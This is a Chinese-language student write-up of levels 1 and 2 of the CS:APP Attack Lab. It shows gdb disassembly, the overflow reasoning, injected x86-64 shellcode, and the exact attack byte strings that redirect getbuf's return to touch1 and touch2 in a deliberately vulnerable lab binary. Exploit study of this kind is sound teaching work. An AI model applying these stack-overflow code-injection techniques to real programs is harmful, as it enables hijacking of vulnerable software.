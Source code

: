 ## 代码注入

通过使缓冲区溢出，注入攻击代码。

### level 1

第一阶段，我们并不需要进行代码注入，我们需要做的就是劫持程序流，将函数的正常返回地址给重写，将函数重定向到我们指定的特定函数。在这个阶段中，我们要重定向到`touch1`函数。

```s
(gdb) disas getbuf # 反汇编getbuf函数
Dump of assembler code for function getbuf:
   0x00000000004017a8 <+0>:     sub    $0x28,%rsp 
   # 在栈上为buf提供了0x28也就是40个字节的空间
   0x00000000004017ac <+4>:     mov    %rsp,%rdi
   0x00000000004017af <+7>:     callq  0x401a40 <Gets>
   0x00000000004017b4 <+12>:    mov    $0x1,%eax
   0x00000000004017b9 <+17>:    add    $0x28,%rsp
   0x00000000004017bd <+21>:    retq   
End of assembler dump

(gdb) disas touch1 # 反汇编touch1函数
Dump of assembler code for function touch1:
   0x00000000004017c0 <+0>:     sub    $0x8,%rsp
   # touch1的返回地址是0x00000000004017c0
   0x00000000004017c4 <+4>:     movl   $0x1,0x202d0e(%rip)        # 0x6044dc <vlevel>
   0x00000000004017ce <+14>:    mov    $0x4030c5,%edi
   0x00000000004017d3 <+19>:    callq  0x400cc0 <puts@plt>
   0x00000000004017d8 <+24>:    mov    $0x1,%edi
   0x00000000004017dd <+29>:    callq  0x401c8d <validate>
   0x00000000004017e2 <+34>:    mov    $0x0,%edi
   0x00000000004017e7 <+39>:    callq  0x400e40 <exit@plt>
End of assembler dump.
```

现在我们可以知道，我们需要用`0x28`字节来将栈填满，再写入`touch1`函数的入口地址，在`getbuf`函数执行到`ret`指令的时候就会返回到`touch1`中执行。

下面就要利用官方提供的`hex2raw`程序来帮助我们生成攻击字符串，这个程序将以空白字符隔开表示的字节转换成真正的二进制字节，注意这个程序只是原样地转换文件中的字符，所以字节序的问题是我们应该考虑的。

```bash
$ ./hex2raw -i solutions/lv1.txt| ./ctarget -q
Cookie: 0x59b997fa
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:1:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 C0 17 40 00 00 00 00 00
```

前`0x28`个字节都使用`0x00`来填充，然后在溢出的8个字节中写入了`touch1`的首地址`0x4017c0`，注意字节序就可以了。

### level 2

第二阶段，我们需要做的就是在输入字符串中注入一小段代码。其实整体的流程还是`getbuf`中输入字符，然后拦截程序流，跳转到调用`touch2`函数。

首先，我们查看`touch2`函数：

```c
void touch2(unsigned val) { // 验证传进来的参数val是否和cookie中值相等。
  vlevel = 2;
  if (val == cookie) {
    printf("Touch2!: You called touch2(0x%.8x)\n", val);
    validate(2);
  } else {
    printf("Misfire: You called touch2(0x%.8x)\n", val);
    fail(2);
  }
  exit(0);
}
```

如何让程序去执行我们的代码呢？既然我们可以向栈中写入任意内容并且可以设置返回时跳转到的地址，那么我们就可以通过在栈中写入指令，再令从getbuf函数返回的地址为我们栈中指令的首地址，在指令中执行ret进行第二次返回，返回到touch2函数，就可以实现我们的目的。

我们可以将指令写入到栈地址的最低处，然后在溢出后将地址设置为这个栈地址。我们能完成这个攻击的前提是讲义中已经告诉我们这个具有漏洞的程序在运行时的栈地址是固定的，不会因运行多次而改变，并且这个程序允许执行栈中的代码。

思路：


1. 将正常的返回地址设置为注入代码的地址
2. 将cookie值移入到`%rdi`，`%rdi`是函数调用的第一个参数
3. 获取`touch2`的起始地址
4. 想要调用`touch2`，而又不能直接使用`call`,`jmp`等指令，所以只能使用`ret`改变当前指令寄存器的指向地址。


由于我们需要在注入的代码中再次返回，就需要将二次返回的地址同样存放在栈中，放在栈顶即可。

通过gdb反汇编找到`touch2`的起始地址

```s
(gdb) disas touch2
Dump of assembler code for function touch2:
   0x00000000004017ec <+0>:     sub    $0x8,%rsp
   0x00000000004017f0 <+4>:     mov    %edi,%edx
   0x00000000004017f2 <+6>:     movl   $0x2,0x202ce0(%rip)        # 0x6044dc <vlevel>
   0x00000000004017fc <+16>:    cmp    0x202ce2(%rip),%edi        # 0x6044e4 <cookie>
   0x0000000000401802 <+22>:    jne    0x401824 <touch2+56>
   0x0000000000401804 <+24>:    mov    $0x4030e8,%esi
   0x0000000000401809 <+29>:    mov    $0x1,%edi
   0x000000000040180e <+34>:    mov    $0x0,%eax
   0x0000000000401813 <+39>:    callq  0x400df0 <__printf_chk@plt>
   0x0000000000401818 <+44>:    mov    $0x2,%edi
   0x000000000040181d <+49>:    callq  0x401c8d <validate>
   0x0000000000401822 <+54>:    jmp    0x401842 <touch2+86>
   0x0000000000401824 <+56>:    mov    $0x403110,%esi
   0x0000000000401829 <+61>:    mov    $0x1,%edi
   0x000000000040182e <+66>:    mov    $0x0,%eax
   0x0000000000401833 <+71>:    callq  0x400df0 <__printf_chk@plt>
   0x0000000000401838 <+76>:    mov    $0x2,%edi
   0x000000000040183d <+81>:    callq  0x401d4f <fail>
   0x0000000000401842 <+86>:    mov    $0x0,%edi
   0x0000000000401847 <+91>:    callq  0x400e40 <exit@plt>
End of assembler dump.
```

可以得到如下汇编攻击代码`inject_lv2.s`：

```s
movq    $0x59b997fa, %rdi # 将cookie值移入函数调用参数
pushq   $0x4017ec         # 将touch2地址压栈
ret                       # 读取栈顶指针指向的地址并跳转
```

```s
$ gcc -c inject_lv2.s    
$ objdump -d inject_lv2.o

inject_lv2.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:   48 c7 c7 fa 97 b9 59    mov    $0x59b997fa,%rdi
   7:   68 ec 17 40 00          pushq  $0x4017ec
   c:   c3                      retq
```


通过gdb查看`rsp`指向的地址

```s
(gdb) break getbuf
Breakpoint 1 at 0x4017a8: file buf.c, line 12.
(gdb) run -q
Starting program: /root/csapp-lab/attacklab/ctarget -q
Cookie: 0x59b997fa

Breakpoint 1, getbuf () at buf.c:12
12      buf.c: No such file or directory.
(gdb) disas
Dump of assembler code for function getbuf:
=> 0x00000000004017a8 <+0>:     sub    $0x28,%rsp
   0x00000000004017ac <+4>:     mov    %rsp,%rdi
   0x00000000004017af <+7>:     callq  0x401a40 <Gets>
   0x00000000004017b4 <+12>:    mov    $0x1,%eax
   0x00000000004017b9 <+17>:    add    $0x28,%rsp
   0x00000000004017bd <+21>:    retq   
End of assembler dump.
(gdb) stepi
14      in buf.c
(gdb) x /64xb $rsp
0x5561dc78:     0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x5561dc80:     0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x5561dc88:     0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x5561dc90:     0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x5561dc98:     0x00    0x60    0x58    0x55    0x00    0x00    0x00    0x00
0x5561dca0:     0x76    0x19    0x40    0x00    0x00    0x00    0x00    0x00
0x5561dca8:     0x09    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x5561dcb0:     0x24    0x1f    0x40    0x00    0x00    0x00    0x00    0x00
```

可以看到首地址为`0x5561dc78`。

于是我们可以构造攻击用的二进制字节：

```
48 c7 c7 fa 97 b9 59 68 ec 17 
40 00 c3 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 00 00 
78 dc 61 55 00 00 00 00
```

填充后的栈组织如下图所示

![填充后的栈组织](https://upload-images.jianshu.io/upload_images/1433829-fa485a0533812b76.png)

```bash
./hex2raw -i solutions/lv2.txt | ./ctarget -q
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:2:48 C7 C7 FA 97 B9 59 68 EC 17 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00
```

## reference

1. [深入理解计算机系统（CS:APP) - Attack Lab详解](https://www.viseator.com/2017/07/18/CS_APP_AttackLab/)
2. [CSAPP:Attack lab](https://www.jianshu.com/p/db731ca57342)